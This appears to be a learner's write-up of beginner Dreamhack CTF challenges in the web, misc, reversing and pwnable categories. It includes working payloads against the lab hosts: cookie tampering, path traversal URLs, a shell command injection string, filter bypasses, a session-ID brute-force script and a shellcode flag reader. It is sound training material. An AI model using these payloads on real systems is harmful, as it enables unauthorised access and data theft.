

# Beginner

## Web

### cookie

This is a simple login service that manages authentication status using cookies.\
Successful logins with the admin account earn you a flag.

The flag format is DH{...}.

Theres not much can do here other than login. Even by the description we know that we need to change cookie and get admin

<details>

<summary>app.py</summary>

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'admin': FLAG
}

@app.route('/')
def index():
    username = request.cookies.get('username', None)
    if username:
        return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            resp.set_cookie('username', username)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)

```

</details>

app.py shows that we can login with guest:guest

Then looking at the cookie currently there are cookie header for "username" and the value is guest. so we just change the value to admin and refresh the page and got flag

***

### devtools-sources

Use the Sources tab feature in the developer tools to find flags.

The flag format is DH {...} This is it.

Cheat a bit but I search for flag in devtools and I couldnt find it. But I strings the source code and found it under webpack.

<figure><figcaption></figcaption></figure>

I search in assets/image only. so next time search all.

***

### file-download-1

File Download is a web service with a vulnerability.\
The flag can be obtained by downloading [_flag.py_](http://flag.py/).

the web got two flask route

* `/upload` → blocks filenames containing `..`
* `/read` → **does not** validate the `name` parameter

The vuln here is in the /read

```python
filename = request.args.get('name', '')
open(f'{UPLOAD_DIR}/{filename}', 'rb')
```

So we can do a **path traversal**: `uploads/../flag.py` → `flag.py` in the app root. Just call /read directly with ../ and we got the flag

```
http://host8.dreamhack.games:10595/read?name=../flag.py
```

***

### command-injection-1

A service that sends ping packets to specific hosts.\
Obtain flags through Command Injection. The flag `flag.py` is located at

the description does not say where is the flag.py located. hm. so we just do the long way

for command injection we can use ; | || etc

but when i inset 8.8.8.8; ls is say please match the requested format

there are client side validation but not server side

```html
<input type="text" ... name="host"
       pattern="[A-Za-z0-9.]{5,20}" required>
```

for the command prompt. the server runs:

```python
host = request.form.get('host')
cmd = f'ping -c 3 "{host}"'
subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
```

if we send inly 8.8.8.8 then it become ping -c 3 "8.8.8.8". the host is always inside double quote. So like in sql injection, we want to close the double quote and add comment

if we use `8.8.8.8"; cat flag.py; #` we get `ping -c 3 "8.8.8.8"; cat flag.py; #"`

Break it down:

* `"` (before our input) starts the quoted argument.
* `8.8.8.8` is fine.
* Our injected `"` **closes** the quote → end of `"8.8.8.8"`.
* `;` starts a **new command**.
* `cat flag.py` is now a separate, attacker-controlled command.
* `#` comments out the trailing `"` so it doesn’t matter.

now we know the payload but how do we bypass the weak client side validation? we can just delete it in devtools, or can just use curl!

***

### Carve Party

To celebrate the Halloween party, we have prepared pumpkins! Click the pumpkin 10000 times to get a flag!

The bad thing is, we need to click 10000 times. the good thing is, there are no instance.

But this is web challenge. So during training, I need to solve it using web skillz. Open the html, head straight to inspect. find the variable for the click number. print it in console to confirm it. u should see the variable is clicks. but if you try modifying it, its not updating and couldnt get the flag. its because of the js. need to modify js variable instead. so we modify counter. but modify the counter doesnt trigger the xor. so we cant change values. so we write script to simulate the xor

```javascript
var pumpkin = [124,112,59,73,167,100,105,75,59,23,16,181,165,104,43,49,118,71,112,169,43,53];
var pie = 1;
for (let step = 0; step < 100; step++) {
  for (let i = 0; i < pumpkin.length; i++) {
    pumpkin[i] ^= pie;
    pie = ((pie ^ 0xff) + (i * 10)) & 0xff;
  }
}
console.log(String.fromCharCode(...pumpkin));
```

***

### ex-reg-ex

Obtain a flag by entering a string in the format required by the question. Flags are in `flag.txt` files and `FLAG` variables.

The flag format is DH {...} This is it.

Basically, if you fulfill the regex&#x20;

```python
m = re.match(r'dr\w{5,7}e\d+am@[a-z]{3,7}\.\w+', input_val)
```

you will get the flag. so input&#x20;

```
draaaaae1am@aaa.abc
```

can use [https://regex101.com/](https://regex101.com/) to play around. or just cyberchef if im not mistaken.

***

### pathtraversal

An API server for querying user information.\
Use the Path Traversal vulnerability to obtain the `/api/flag` flag in!

looking at the source code, it shows that the /get\_user is currently in /api/user/{user\_id]. so we just read ../flag

`curl -s -X POST 'http://host8.dreamhack.games:11469/get_info' -d 'userid=../flag`

***

### phpreg

This page is written in php.

Enter the appropriate Nickname and Password and you can proceed to Step 2.

Use the `system()` function in Step 2 to obtain flags.

The flag is `../dream/flag.txt` located at.

The format of the flag is DH {...} That's it.

The goal is to bypass login and read flag

```php
$input_name = $_POST["input1"] ? $_POST["input1"] : "";
$input_pw   = $_POST["input2"] ? $_POST["input2"] : "";

// pw filtering
if (preg_match("/[a-zA-Z]/", $input_pw)) {
  echo "alphabet in the pw :(";
}
else {
  $name = preg_replace("/nyang/i", "", $input_name);
  $pw   = preg_replace("/\d*\@\d{2,3}(31)+[^0-8\"]\!/", "d4y0r50ng", $input_pw);

  if ($name === "dnyang0310" && $pw === "d4y0r50ng+1+13") {
    // Step 2 with system($cmd)
  }
}
```

from the source code we know that the server check for `dnyang0310:d4y0r50ng+1+13`

but the code remove `nyang`. so we use trick like path traversal ....// which remove ../ so we input dnynyangang0310.&#x20;

as for the password, we need to satisfy the regex `"/\d*\@\d{2,3}(31)+[^0-8\"]\!/"` because it will replace with `d4y0r50ng`, whihc needed in the real password. So its more like `"/\d*\@\d{2,3}(31)+[^0-8\"]\!/"+1+13`

the regex means:

* `\d*` – 0 or more digits
* `@` – literal `@`
* `\d{2,3}` – 2 or 3 digits
* `(31)+` – one or more `"31"`
* `[^0-8\"]` – a single char that is **not** `0–8` or `"`
* `!` – literal `!`

So we can use `0@00319!`

* `0` → `\d*`
* `@` → `@`
* `00` → part of `\d{2,3}`
* `31` → `(31)+`
* `9` → `[^0-8\"]` (9 is allowed, not in 0–8)
* `!` → `!`
* `+1+13` → remains untouched, outside the match

Then after login, we actually get system($cmd); or RCE, so we just need to cat flag. but flag is blacklisted. we can bypass it using wildcard f?ag.

***

### Flying chars

Stop the flying letters and figure out the whole string! The flag format is DH {full string}.

❗ The problem is that attachments are not provided.\
❗ Of the letters included in the flag`x`,,`s`, `o` are all lowercase letters.\
❗ All alphabets included in the flag `C` are capital letters.

Since there are no source code, it approach this as blackbox challenge. Looking at the website, it literally has flying chars which impossible to see with human eyes.

Taking a look at curl

```bash
$ curl -v http://host8.dreamhack.games:11018/
* Host host8.dreamhack.games:11018 was resolved.
* IPv6: (none)
* IPv4: 158.247.232.53
*   Trying 158.247.232.53:11018...
* Connected to host8.dreamhack.games (158.247.232.53) port 11018
* using HTTP/1.x
> GET / HTTP/1.1
> Host: host8.dreamhack.games:11018
> User-Agent: curl/8.11.0
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: Werkzeug/2.3.4 Python/3.11.1
< Date: Sat, 22 Nov 2025 16:32:33 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 1634
< Connection: close
<
<html>
<head>
  <title>Web</title>
</head>
<body>
  <div id="box">
  </div>

  <style type="text/css">
    body{
      display: flex;
      width: 100vw;
      height:100vh;
      padding: 0px;

    }
    #box{
      display: flex;
      flex-direction: column;
      justify-content: space-around;
      width: 90%;
      height:100%;
    }
  </style>

  <script type="text/javascript">
    const img_files = ["/static/images/10.png", "/static/images/17.png", "/static/images/13.png", "/static/images/7.png","/static/images/16.png", "/static/images/8.png", "/static/images/14.png", "/static/images/2.png", "/static/images/9.png", "/static/images/5.png", "/static/images/11.png", "/static/images/6.png", "/static/images/12.png", "/static/images/3.png", "/static/images/0.png", "/static/images/19.png", "/static/images/4.png", "/static/images/15.png", "/static/images/18.png", "/static/images/1.png"];
    var imgs = [];
    for (var i = 0; i < img_files.length; i++){
      imgs[i] = document.createElement('img');
      imgs[i].src = img_files[i];
      imgs[i].style.display = 'block';
      imgs[i].style.width = '10px';
      imgs[i].style.height = '10px';
      document.getElementById('box').appendChild(imgs[i]);
    }

    const max_pos = self.innerWidth;
    function anim(elem, pos, dis){
      function move() {
        pos += dis;
        if (pos > max_pos) {
          pos = 0;
        }
        elem.style.transform = `translateX(${pos}px)`;
        requestAnimationFrame(move);
      }
      move();
    }

    for(var i = 0; i < 20; i++){
      anim(imgs[i], 0, Math.random()*60+20);
    }
  </script>
</body>
* shutting down connection #0
</html>
```

for me, i'll take a look one by one oin img\_files value. /static/images/10.png is letter T. check the image one by one and get the flag. Too\_H4rd\_to\_sEe\_th3\_Ch4rs\_X.X

Then we change the strings to match the challenge description

***

### simple-web-request

When you reach the FLAG page after STEP 1-2, the flag is output.\
Earn flags by passing all levels. The flags are in the flag.txt file and in the FLAG variable.

The flag format is DH {...} This is it.

to pass step 1, the are are hardcoded passphrase in the code

[/step1?param=getget\&param2=rerequest](http://host8.dreamhack.games:18568/step1?param=getget\&param2=rerequest)

the same as step 2, there are hardcoded value

pooost and requeeest

***

### session

A simple login service that uses cookies and sessions to manage authentication status.
\
If you successfully log in with an admin account, you can obtain a flag.

From the source code, we can login with guest:guest

Taking a look at session cookie, i dont think we can alter it as they are no meaningful value behind it. So we will just brute force the admin session as the token is really short.

```bash
#!/usr/bin/env bash

URL="http://host8.dreamhack.games:12380/"

for i in $(printf "%02x " {0..255}); do
    echo "[*] Trying sessionid=$i"
    # -s = silent, -S = show errors, -L = follow redirects if any
    body=$(curl -s -S -L "$URL/" --cookie "sessionid=$i")
    if echo "$body" | grep -q "Hello admin"; then
        echo "[+] FOUND admin sessionid: $i"
        echo "$body"
        break
    fi
done
```

***

### web-misconf-1

This service uses default settings.
\
After I logged in, I set a flag for the organization.

the description mention about default settings.

running the web shows grafana login page.&#x20;

googling it and google give admin:admin

then just explore the page adn found flag

***

## Misc

### 64se64

“Welcome! This is an html page that outputs 👋”.

Check the source code to solve problems and obtain flags.

The flag format is DH {...} This is it.

you dont need to start the vm. the source file is the flag. inspect the html file, you will see long base64 string. decode the base64, copy paste the output in python compiler and you will get the flag.

***

### Exercise: Welcome-Beginners

This is a question for Wargame exercises. Enter “Dreamhack” to get a flag!

The format of the flag is DH {...} That's it.

just enter Deamhack

***

### baby-linux

The web service that runs Linux commands is working.\
The code for the corresponding web service is given as an attachment.

Find the flag.txt file and print it out to get the flag!

The flag format is DH {...} This is it.

Just run some linux command to find the flag. from ls we can see hint.txt


```
Where is Flag? ./dream/hack/hello
```


```
./dream/hack/hello: directory
```

ls ./dream/hack/hello and found flag.txt. but from app.py we can see the word "flag" is blacklisted. we can cat f?ag.txt instead.

***

### Exercise: SSH

This is a question for SSH practice. Connect to the problem server via SSH!

The format of the flag is DH {...} That's it.

```
ssh with
id: chall
password: dhbgssh
```

just read the flag

```bash
$ ssh -p 18826 chall@host8.dreamhack.games
The authenticity of host '[host8.dreamhack.games]:18826 ([158.247.232.53]:18826)' can't be established.
ED25519 key fingerprint is SHA256:xhAn3bi+kzaaA1iGfdWEqxlXIHfGg8F0iJuyKHulTXw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[host8.dreamhack.games]:18826' (ED25519) to the list of known hosts.
chall@host8.dreamhack.games's password:
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 4.19.234 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

rbash: groups: command not found
rbash: dircolors: command not found
chall@localhost:~$ ls
bin  flag
chall@localhost:~$ file flag
rbash: file: command not found
chall@localhost:~$ cat flag
DH{h3110_6e9inn3rs!}
```

***

### dreamhack-tools-cyberchef

Dream is very sad because nobody knows about [https://tools.dreamhack.games/cyberchef](https://tools.dreamhack.games/cyberchef) created by Dream. Shall we try it together?

the challenge file shows how the flag be encoded. just reverse the encoding in cyberchef

***

## Reversing

### Reversing Basic Challenge #0 <a href="#reversing-basic-challenge-0" id="reversing-basic-challenge-0"></a>

In this problem, the user is given a program that takes a string input, verifies the input value in a fixed way, and outputs correct or wrong.

Analyze this binary to find an input value that outputs correct!

Please verify the obtained input values by putting them in a `DH{}` format.

Example) If the input value is `Apple_Banana` the flag `DH{Apple_Banana}`

got an exe file. always `file` and `strings` first. in strings, you can get the input answer.

***

### Reversing Basic Challenge #1 <a href="#reversing-basic-challenge-1" id="reversing-basic-challenge-1"></a>

In this problem, the user is given a program that takes a string input, verifies the input value in a fixed way, and outputs correct or wrong.

Analyze this binary to find out the input value that outputs correct.

Please verify the obtained input values by putting them in a `DH{}` format.

Example) If the input value is `Apple_Banana` the flag `DH{Apple_Banana}`&#x20;

This time cannot strings. when decompile it we got basic function with no cipher

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[256]; // [rsp+20h] [rbp-118h] BYREF

  memset(v4, 0, sizeof(v4));
  sub_1400013E0("Input : ", argv, envp);
  sub_140001440("%256s", v4);
  if ( (unsigned int)sub_140001000(v4) )
    puts("Correct");
  else
    puts("Wrong");
  return 0;
}
```

```c
_BOOL8 __fastcall sub_140001000(_BYTE *a1)
{
  if ( *a1 != 67 )
    return 0LL;
  if ( a1[1] != 111 )
    return 0LL;
  if ( a1[2] != 109 )
    return 0LL;
  if ( a1[3] != 112 )
    return 0LL;
  if ( a1[4] != 97 )
    return 0LL;
  if ( a1[5] != 114 )
    return 0LL;
  if ( a1[6] != 51 )
    return 0LL;
  if ( a1[7] != 95 )
    return 0LL;
  if ( a1[8] != 116 )
    return 0LL;
  if ( a1[9] != 104 )
    return 0LL;
  if ( a1[10] != 101 )
    return 0LL;
  if ( a1[11] != 95 )
    return 0LL;
  if ( a1[12] != 99 )
    return 0LL;
  if ( a1[13] != 104 )
    return 0LL;
  if ( a1[14] != 52 )
    return 0LL;
  if ( a1[15] != 114 )
    return 0LL;
  if ( a1[16] != 97 )
    return 0LL;
  if ( a1[17] != 99 )
    return 0LL;
  if ( a1[18] != 116 )
    return 0LL;
  if ( a1[19] != 51 )
    return 0LL;
  if ( a1[20] == 114 )
    return a1[21] == 0;
  return 0LL;
}
```

We just take the number and convert to ascii

<figure><figcaption></figcaption></figure>

## pwnable

### welcome

This problem is given the binary and source code of the service (welcome) running on the server.\
Click “View connection information” to obtain service information and obtain a flag.\
Points can be obtained by verifying the content of the flag obtained from the server on the Wargame site.\
The format of the flag is DH {...} That's it.

**just run the netcat**

***

### shell\_basic

The program that runs the shell code you entered is registered as a service and is working.

`main`Functions other than functions prevent the use of the execve and execveat system calls, and are unrelated to solving.

The location and name of the flag file `/home/shell_basic/flag_name_is_loooooong` is.\
If you have trouble getting the hang of it, try practicing with the code below first!

**The flag format is`DH{...}`. `DH{`You must `}` also include both and certifications.**

For this, we dont need to exploit anything, we just need to send cat flag payload

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'

HOST = "host3.dreamhack.games"
PORT = 22320

def main():
    p = remote(HOST, PORT)
    path = "/home/shell_basic/flag_name_is_loooooong"
    shellcode = shellcraft.cat(path)
    shellcode = asm(shellcode)

    p.sendlineafter(b"shellcode: ", shellcode)

    print(p.recvuntil(b"}", timeout=2))

    p.close()

if __name__ == "__main__":
    main()

```

